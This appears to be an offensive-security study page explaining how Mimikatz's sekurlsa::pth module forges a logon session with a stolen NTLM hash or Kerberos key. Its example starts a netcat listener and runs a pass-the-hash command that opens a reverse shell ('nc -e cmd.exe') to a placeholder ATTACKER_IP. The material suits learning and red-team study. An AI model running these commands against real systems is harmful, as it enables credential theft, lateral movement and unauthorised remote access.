 # sekurlsa::pth

{% embed url="https://www.praetorian.com/blog/inside-mimikatz-part1/" %}

{% embed url="https://www.praetorian.com/blog/inside-mimikatz-part2/" %}

### Overview of how _Mimikatz_ implements the pass-the-hash technique

I aim to provide a general high-level overview of how the `sekurlsa::pth` module works to allow an attacker to impersonate a user.&#x20;

The `sekurlsa::pth` module allows an attacker to impersonate a user by spawning a new logon session on the local machine, and associating the attacker’s supplied credentials with that session. It will then launch a process specified by the attacker (reverse shell, etc.) under the context of the new forged session.

This entire process happens locally, and no external authentication is performed at this stage. However, subsequent network requests made from the new session will use the injected credentials, allowing us to perform lateral movement and other actions without knowing the actual password.

#### Technical details

The `sekurlsa::pth` method performs a **Pass-the-Hash** or **Pass-the-Key** attack for NTLM and Kerberos authentication respectively, that depends on the provided options (eg. `/ntlm` , `/rc4` , etc.).

Now, when we start a new command prompt session, we can verify that the injected Kerberos ticket is present using the `klist` command. Any external network connections (eg. `schtasks` , `sc.exe` , etc.) executed from that forged logon session will automatically use the injected credentials, giving us access as that particular user on the remote machine.

**a. Using stolen NTLM hash with NetNTLM authentication**

* When we receive a challenge from the remote server, the injected NTLM hash will be used to create the challenge response&#x20;



**b. Using stolen encryption key with Kerberos authentication**



#### Example

Suppose we have found a user's NTLM hash using the `lsadump::sam` or `sekurlsa::msv` methods. We can use the found hash to retrieve a shell session as the found user.

First, we need to establish a listener to catch the shell:

```sh
$ nc -lvnp PORT
```

Next, perform the attack:

{% code overflow="wrap" %}
```
mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<hash> /run:"nc -e cmd.exe ATTACKER_IP PORT" 
```
{% endcode %}

Note that if we execute the `whoami` command, we will still see the original user we were using before performing the attack, but any commands executed from this session will use the injected credentials.

